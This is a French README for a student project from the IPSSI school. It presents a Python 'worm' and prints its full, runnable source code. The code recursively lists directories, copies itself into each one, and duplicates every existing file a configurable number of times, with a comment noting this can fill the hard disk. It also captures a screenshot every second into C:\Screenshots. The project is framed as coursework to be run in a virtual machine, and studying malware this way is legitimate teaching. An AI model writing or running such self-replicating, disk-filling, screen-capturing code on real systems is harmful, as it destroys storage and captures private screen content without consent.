 # Vers-Python-IPSSI
<!-- Image centrée -->

<div align="center">

![CAPTURE](https://zupimages.net/up/22/48/cf4u.png)

</div>

<!-- --------------------------- -->

**Vers-Python-IPSSI** a été réalisé dans le cadre pédagogique de l'IPSSI avec un projet sur 1,5 jours. 

>Un ver informatique est un logiciel malveillant qui se reproduit sur plusieurs ordinateurs en utilisant un réseau informatique comme Internet

# Prérequis
- Visual studio code

- Python3

- Connaissances basique / intermédiaire en Python

Il est recommandé d'exécuter ce programme dans un environnement virtuel, il est possible d'en mettre un en place à l'aide des logiciels suivants : 
- Virtualbox --> Sur une VM Windows / Linux
- VMWare workstation pro --> Sur une VM Windows / Linux
- ...

# Description du projet

### Dépendances

Le projet nécessite l'installation de dépendances Python, ces dernières sont disponibles dans le fichier ```requirements.txt```.

```
pip install -r requirements.txt
```

>Il sera également nécessaire de relancer l'interpréteur de code afin de prendre en compte l'installation.

### Architecture du projet 

Le projet repose sur 1 fichiers Python : 

- ```vers.pyw``` --> Qui contient le code du vers (exécutable avec un double clic comme un .EXE, pour tester)

### Fonctionnement du projet

Le projet déroule en plusieurs étapes :

1) Exécution du code par la victime

2) Le vers va alors **analyser le système** (répertoires / sous répertoires données )

3) Le vers **va alors se répliquer dans les répertoires cibles** de la victime

4) Le vers va prendre des screenshots chaques secondes et les stocker dans C:\Screenshots 

### Mise en réseau
Ce projet se déroule entièrement en **local**.

# Avancement du projet

- [x] Mise en place de l'initialisation du vers
- [x] Mise en place de l'auto-réplication du vers
- [x] Mise en place de l'automatisation de captures par le vers ( le vers va prendre des captures d'écran et les stocker dans C:\Screenshots (pour besoins des tests, il est possible d'envoyer les screenshots sur un serveur distant) )

# Mise en place de l'environement de travail

Il est conseillé, pour travailler dans de bonnes conditions, d’ouvrir un **répertoire de travail** ( sur le bureau ou autre ) sur Visual Studio Code

Une fois le répertoire créé, dans visual studio code il faut cliquer sur ```Fichier``` → ```Ouvrir le dossier```

Une fois cette étape réalisée il suffit d'importer les fichiers .py dans le répertoire de travail et l'exécution est désormait possible

# Explications sur le code

## Fonctions

Les fonctions sont toutes dans une classe, appelée ```Vers```, les fonctions en son sein permettent :
- Fonction ```__init__``` = d'initialiser le vers
  - De définir où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
  - De donner la possibilité de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
  - De définir le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire

- Fonction ```lister_repertoires``` = d'analyser le système
  - Cette partie va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 

- Fonction ```creation_vers``` = Permet de répliquer le ver dans les répertoires cibles.

- Fonction ```copier_fichiers_existants``` = Permet de dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération.

- Fonction ```create_directory``` = Permet de créer un répertoire dans le disque C:\ ( nécessite les droits d'admin )

- Fonction ```screenshots``` = Permet de prendre une capture d'écran toutes les secondes ( le time.sleep(1) permet de définir le nombre de secondes d'intervalles )

- Fonction ```start_vers``` = Permet d'appeler toutes les fonctions créées précédemment

```python
class Vers:
        #Initialisation 
        def __init__(classVers, path=None, repertoire_cible=None, replication=None):
            # Définit où commencer la recherche de répertoires (la valeur par défaut est définie sur le répertoire racine)
            if isinstance(path, type(None)):
                classVers.path="/"
            else:
                classVers.path = path
            # Possibilitée de transmettre une liste de répertoires cibles initiaux. Par défaut c'est une liste vide []
            if isinstance(repertoire_cible, type(None)):
                classVers.repertoire_cible=[]
            else:
                classVers.repertoire_cible = repertoire_cible
            # Définit le nombre d'instances que le ver créera pour chaque fichier existant dans un répertoire
            if isinstance(repertoire_cible, type(None)):
                classVers.replication = 10
            else:
                classVers.replication = replication

            # Prendre le chemin absolu
            classVers.own_path = os.path.realpath(__file__)
        # Cette fonction va nous permettre d’accéder au contenu des répertoires spécifiés précédemment. C’est-à-dire tous les répertoires et sous-répertoires y contenu. 
        def lister_repertoires(classVers, path):
            classVers.repertoire_cible.append(path)
            fichier_dans_le_repertoire = os.listdir(path)

            for file in fichier_dans_le_repertoire:
                # Évite les répertoires / fichiers cachés
                if not file.startswith('.'):
                    # Prends le PATH complet
                    path_absolu = os.path.join(path, file)
                    print(path_absolu)

                    if os.path.isdir(path_absolu):
                        classVers.lister_repertoires(path_absolu)
                    else:
                        pass
        #Fonction de création du vers
        # Permet de répliquer le ver dans les répertoires cibles.
        def creation_vers(classVers):
            for directory in classVers.repertoire_cible:
                destination = os.path.join(directory, "vers.py")
                # Copie le script dans le nouveau répertoire avec un noms similaires
                shutil.copyfile(classVers.own_path, destination)

        def copier_fichiers_existants(classVers):
            # La méthode suivante sera utilisée pour dupliquer les fichiers le nombre de fois la valeur que nous avons de l'argument itération. 
            # Il est possible de mettre un grand nombre pour que le disque dur soit plein.
            for directory in classVers.repertoire_cible:
                file_list_in_dir = os.listdir(directory)
                for file in file_list_in_dir:
                    abs_path = os.path.join(directory, file)
                    if not abs_path.startswith('.') and not os.path.isdir(abs_path):
                        source = abs_path
                        for i in range(classVers.replication):
                            destination = os.path.join(directory,(file+str(i)))
                            shutil.copyfile(source, destination)
        #Créer un répertoire "Screenshot" dans C:\
        def create_directory(classVers):
            repertoire_parent = "C:\\"
            repertoire_a_creer = "Screenshots"
            classVers.fullpath_directory = os.path.join(repertoire_parent, repertoire_a_creer)
            if not os.path.exists(classVers.fullpath_directory):
                os.mkdir(classVers.fullpath_directory)
        #Captures saves dans le répertoire "Screenshot" dans C:\, incrémentées par 1
        def screenshots(classVers):
            i=0
            while True:
                screenshot = ImageGrab.grab()
                filename = (os.path.join(classVers.fullpath_directory, "Screenshot"+str(i+1)+".png"))
                screenshot.save(filename) 
                time.sleep(1)
                i=i+1
        #Fonction de lancement de toutes les fonctions du vers
        def start_vers(classVers):
            classVers.lister_repertoires(classVers.path)
            classVers.creation_vers()
            classVers.copier_fichiers_existants()
            classVers.create_directory()
            classVers.screenshots()

 ```

## Traitement

Cette partie permet de définir le PATH à attaquer et d'appeler la fonction qui lance toutes les fonctions sur le PATH donné.

```python
if __name__=="__main__":
    attack_directory = os.path.abspath(r"C:\Users\ADM_VM01\Desktop\TEST FOLDER")
    VersFinal = Vers(path=attack_directory)
    VersFinal.start_vers()
 ```

**Il faut au préalable mettre en place un répertoire de test et renseigner son chemin absolu dans la variable ```attack_directory```, en fin de code.**
